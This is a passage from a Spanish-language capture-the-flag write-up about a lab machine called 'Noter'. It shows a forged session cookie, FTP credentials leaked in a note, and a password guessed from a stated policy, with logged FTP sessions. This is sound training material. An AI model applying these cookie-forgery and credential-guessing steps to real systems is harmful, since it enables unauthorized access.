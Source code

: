 Cambiamos en el navegador la cookie que teníamos por la que hemos construido y accedemos. Al entrar a la sesión vemos que tiene `VIP` —con un usuario normal no la teníamos—. Además, observamos que hay dos notas, y una de ellas es 'Noter Premium Membership' en la que encontramos lo siguiente:

> Written by ftp_admin on Mon Dec 20 01:52:32 2021
Hello, Thank you for choosing our premium service. Now you are capable of
doing many more things with our application. All the information you are going
to need are on the Email we sent you. By the way, now you can access our FTP
service as well. Your username is 'blue' and the password is 'blue@Noter!'.
Make sure to remember them and delete this.  
(Additional information are included in the attachments we sent along the
Email)  
We all hope you enjoy our service. Thanks!  
ftp_admin

## Accediendo a ftp como blue
¡Ahora tenemos credenciales para acceder por ftp! Cuando accedemos obtenemos lo siguiente:
```shell
rabb1t@hold:~$ ftp 10.10.11.160 
Connected to 10.10.11.160.
220 (vsFTPd 3.0.3)
Name (10.10.11.160:$(USER)): blue
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    3 0        1002         4096 May 02 23:05 .
drwxr-xr-x    3 0        1002         4096 May 02 23:05 ..
drwxr-xr-x    2 1002     1002         4096 May 02 23:05 files
-rw-r--r--    1 1002     1002        12569 Dec 24  2021 policy.pdf
ftp>
```
> El archivo PDF nos dice la política que se emplea para las contraseñas `username@site_name!`.
{: .prompt-info}

## Accediendo a ftp como ftp_admin
Sabiendo lo anterior, podemos intentar acceder como el usuario `admin` siguiendo la política:
```shell
rabb1t@hold:~$ ftp 10.10.11.160
Connected to 10.10.11.160.
220 (vsFTPd 3.0.3)
Name (10.10.11.160:rabb1t0xf): ftp_admin
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 0        1003         4096 May 02 23:05 .
drwxr-xr-x    2 0        1003         4096 May 02 23:05 ..
-rw-r--r--    1 1003     1003        25559 Nov 01  2021 app_backup_1635803546.zip
-rw-r--r--    1 1003     1003        26298 Dec 01  2021 app_backup_1638395546.zip
226 Directory send OK.
```
> contraseña: `ftp_admin@Noter!`
{: .prompt-info}
